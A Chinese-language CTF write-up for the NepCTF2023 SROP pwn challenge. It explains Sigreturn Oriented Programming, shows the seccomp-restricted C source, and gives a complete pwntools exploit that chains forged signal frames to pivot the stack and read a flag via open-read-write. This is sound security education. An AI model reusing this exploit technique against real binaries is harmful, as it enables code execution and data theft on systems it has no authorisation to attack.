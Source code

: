 ```yaml
---
title: SROP初见杀 NepCTF2023
date: 2023-08-12 20:45:49
tags:
  - pwn
  - srop
  - wp
categories:
  - CS
excerpt: 这次比赛第一题就是很明显的 SROP，正好啥也不会，学习了一下
---
```


> 这次比赛第一题就是很明显的**SROP**，正好啥也不会，学习了一下

# SROP

**SROP**全称为**Sigreturn Oriented Programming**，其攻击核心为通过伪造一个**Signal Frame**（以下简称**sigFrame**）在栈上，同时触发**sigreturn**系统调用，让内核为我们恢复一个sigFrame所描述的进程，如一个shell、一个wrtie系统调用打印栈地址等，同时通过对sigFrame中rsp和rip的修改，连接多个sigFrame，可通过多次触发sigreturn系统调用，依次恢复多个sigFrame，实现不同的功能，构成SROP攻击。一个sigFrame可理解为一个进程被挂起时，用于保存进程的数据结构，当进程恢复时，通过触发sigreturn来恢复sigFrame，从而恢复一个进程。

以上内容是抄的，说白了就是：进程受到一个signal进入中断，内核会保存上下文（寄存器状态之类的，这个上下文存在**sigFrame**中），随后进入用户态执行处理函数，处理完最后又进入内核态恢复上下文

![image-20230812205434238](../img/SROP.assets/image-20230812205434238.png)

而这个保存上下文的sigFrame完全在**用户空间**，并且内核对进程挂起时保存的sigFrame以及恢复时还原的sigFrame**没有做任何关联**，这导致sigFrame可以被伪造

![image-20230812205639153](../img/SROP.assets/image-20230812205639153.png)

上图是64位的sigFrame结构。恢复上下文之前，会调用处理函数**Signal Handler**，该函数最后一个指令是`ret`，此时`rsp`正好指向sigFrame的栈顶，也就是存有函数`rt_sigreturn`地址的位置。随后调用`rt_sigreturn`，通过该函数完成上下文的恢复。

因此，我们可以在`rsp`附近伪造sigFrame，通过调用`rt_sigreturn`完成寄存器的布置

调用可以直接写内存，更常见的是进行调用号为0xf的系统调用

> 小技巧：系统调用号可以通过`cat /usr/include/asm/unistd_64.h`查看

另外，pwntools中的`SigreturnFrame()`可以方便完成寄存器的布置

# Nepctf2023-SROP

源码都喂我嘴里了

```c
//gcc -no-pie pwn.c -fno-stack-protector -z now -o pwn  -lseccomp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <syscall.h>
#include <seccomp.h>
#include <linux/seccomp.h>

char buf[0x30]="welcome to NepCTF2023!\n";

int seccomp(){
    scmp_filter_ctx ctx;
    ctx = seccomp_init(SCMP_ACT_KILL);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(rt_sigreturn), 0);
    seccomp_load(ctx);
    return 0;
}

int sys(){
    return 15;
}

int main(){
     char bd[0x30];
     seccomp();
     syscall(1,1,buf,0x30);
     return syscall(0,0,bd,0x300);
}
```

显然需要打一个orw

注意这里有一个坑，众所周知，`syscall`的系统调用号是通过`rax`传递，然而我们反汇编之后

![image-20230812211245122](../img/SROP.assets/image-20230812211245122.png)

令人意外的是，这里的`syscall`都是通过`rdi`传调用号的，猜测与这里使用`call syscall`而非直接使用`syscall`有关

既然不用`rax`传调用号，那题目中的`sys()`函数也就没有意义了，好在能找到`pop rdi`的gadgets，可以任意布置

我的思路是，先打一次srop，把flag写到bss段，顺便把栈迁移过去，随后挨着打orw



**伪造sigFreame**时需要**格外注意**

`cs` `gs` `fs` `ss`需要**保持不变**！否则会报错！



本人就在这里排查了很久

可以按照如下写法

`sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)`

从左往右依次为`cs` `gs` `fs` `ss`

exp如下

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug', terminal = ['tmux', 'new-window'])
def debug(cmd=''):
	cmd += "b *0x0000000004007AE\n"
	gdb.attach(p, cmd)
	pause()

host = "nepctf.1cepeak.cn"
port = 30551
#p = process("./pwn")
p = remote(host, port)

sig = 0x0000000000400750
pop_rdi = 0x0000000000400813
syscall = 0x00000000004007A8
buf = 0x0000000000601020

p.recv()
payload = "\x00"*0x38 +p64(pop_rdi)+p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 0
sig.rsi = 0
sig.rdx = buf
sig.rcx = 0x1000
sig.rip = syscall
sig.rsp = buf+0x10
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)

p.send(payload)

# debug()

payload = "flag\x00\x00\x00\x00"
payload += p64(pop_rdi) + p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 2
sig.rsi = buf
sig.rdx = 0
sig.rcx = 0
sig.rip = syscall
sig.rsp = buf+0x120
sig.rbp = buf+0x120
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)

payload = payload.ljust(0x120,"\x00")
payload += p64(buf+0x120)#rbp
payload += p64(pop_rdi) + p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 0
sig.rsi = 3
sig.rdx = buf
sig.rcx = 0x100
sig.rip = syscall
sig.rsp = buf+0x240
sig.rbp = buf+0x240
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)

payload = payload.ljust(0x240,"\x00")
payload += p64(buf+0x240)#rbp
payload += p64(pop_rdi) + p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 1
sig.rsi = 1
sig.rdx = buf
sig.rcx = 0x100
sig.rip = syscall
sig.rsp = buf+0x240
sig.rbp = buf+0x240
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)


p.send(payload)

p.interactive()
```

